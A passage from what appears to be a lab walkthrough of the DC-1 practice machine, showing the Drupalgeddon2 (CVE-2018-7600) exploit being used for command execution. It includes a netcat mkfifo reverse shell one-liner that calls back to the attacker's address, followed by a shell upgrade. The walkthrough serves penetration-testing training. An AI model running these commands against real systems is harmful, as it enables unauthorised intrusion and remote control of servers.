 [**Drupalgeddon2**](https://github.com/rafaelcaria/drupalgeddon2-CVE-2018-7600)

I check the code out and it looks good so I download it to my system and test it out:

`python3 drupalgeddon2.py -u http://192.168.118.193 -c 'id'`

```
[+] drupalgeddon2 (CVE-2018-7600) exploit by Rafael Caria
[+] Triggering exploit to execute: id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Alright it appears to be working. Let's see if we can get a reverse shell. I start out by checking to see if they have netcat on the system:

`python3 drupalgeddon2.py -u http://192.168.118.193 -c 'which nc'`

```
[+] drupalgeddon2 (CVE-2018-7600) exploit by Rafael Caria
[+] Triggering exploit to execute: which nc

/bin/nc
```

Alright time to get a shell.

<br>

## System Access

I use the standard nc mkfifo reverse shell:

`python3 drupalgeddon2.py -u http://192.168.118.193 -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.49.118 4444 >/tmp/f'`

```
listening on [any] 4444 ...
connect to [192.168.49.118] from (UNKNOWN) [192.168.118.193] 43304
bash: no job control in this shell
www-data@DC-1:/var/www$
```

And upgrading the shell:

```
www-data@DC-1:/var/www$ python -c 'import pty;pty.spawn("/bin/bash")'
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@DC-1:/var/www$ ^Z
zsh: suspended  nc -nvlp 4444
                                                                                                        
┌──(kali㉿kali)-[~]
└─$ stty raw -echo; fg
[1]  + continued  nc -nvlp 4444

www-data@DC-1:/var/www$ export TERM=xterm-256color
```
